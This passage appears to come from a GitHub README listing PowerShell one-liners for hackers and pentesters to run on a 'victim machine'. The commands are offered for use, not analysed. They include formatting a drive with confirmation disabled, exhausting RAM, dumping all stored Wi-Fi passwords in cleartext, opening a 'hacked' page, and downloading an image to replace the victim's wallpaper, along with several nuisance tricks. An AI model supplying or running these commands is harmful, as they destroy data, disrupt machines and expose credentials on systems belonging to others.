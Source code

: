 4 . Deleting Disk partition

    Format-Volume -DriveLetter <drive-letter> -FileSystem NTFS -Confirm:$false
    
can't Delete C:// Drive !

5 . Open Websites and open it in full screen using F11 key
    
    $wshell = New-Object -ComObject WScript.Shell;$wshell.Run("https://google.com");Start-Sleep -Seconds 2;$wshell.SendKeys("{F11}")

5 (1) . Alternate method to open on Any Websites 

```
& "C:\Program Files\Google\Chrome\Application\chrome.exe" --start-maximized --new-window "https://smukx.github.io/hacked"
```
 Change the path to open on custom websites 

6  . Load Your 100% of Ram ! ( Not Efficient for Windows 10 ,11 )

    $blockSize=1GB; $memoryBlock=[byte[]]::new($blockSize); $stopWatch=
    [System.Diagnostics.Stopwatch]::StartNew(); while($stopWatch.Elapsed.TotalSeconds-lt30)
    {$null=$memoryBlock.Clone()}; $memoryBlock=$null
    
 Made an Script that leaves 512 Mb for OS Survive . (Verry Effective) <br>
 Link : 
 <a href="https://github.com/Whitecat18/Ps-script-for-Hackers-and-Pentesters/tree/main/scripts" > Click Here </a> <br><br>
 
7 . Powershell Command to Disable and Enable Display Drivers

    Add-Type -AssemblyName System.Windows.Forms; $screenOff = New-Object System.Windows.Forms.Screen;
    $screenOffBrightness = $screenOff.Brightness; $screenOff.Brightness = 0; Start-Sleep -Seconds  10;
    $screenOff.Brightness = $screenOffBrightness
    
Works in Windows 7 and 8 . Works in some versions of windows !

8 . Command to Know All Stored Wifi-Passwords
 
    (netsh wlan show profiles) -match "All User Profile\s*: (.*)" | %{(netsh wlan show profile $_.trim() key=clear)} | Select-String "Key Content" | ForEach-Object {$_ -replace "Key Content\s*: ", ""}

9 . Increase Volume 100% 

```
$obj = New-Object -com wscript.shell;for ([int]$i = 0; $i -lt 100; $i += 2) {$obj.SendKeys([char]175)}
```
For Loop to Increase Volume 0 to 100 

10 . Decrease Volume 0%
```
$obj = New-Object -com wscript.shell;for ([int]$i = 0; $i -lt 100; $i += 2) {$obj.SendKeys([char]174)}
```
For Loop to Decrease Volume to 0 

11 . Change Wallpaper in victim machine
```
$url = "https://mobimg.b-cdn.net/v3/fetch/ee/ee356e62c87dcd8544a0ec5bbd86b15a.jpeg";$output = "C:\Users\Testing doc\Desktop\image.jpeg";$regkey = "HKCU:\Control Panel\Desktop\";$regvalue = "Wallpaper";wget $url -OutFile $output;Set-ItemProperty -Path $regkey -Name $regvalue -Value $output;RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters ,1 ,True;
```
Change the wallpaper Link as you wish . The Link should end with the extension with .jpg .jpeg etc..
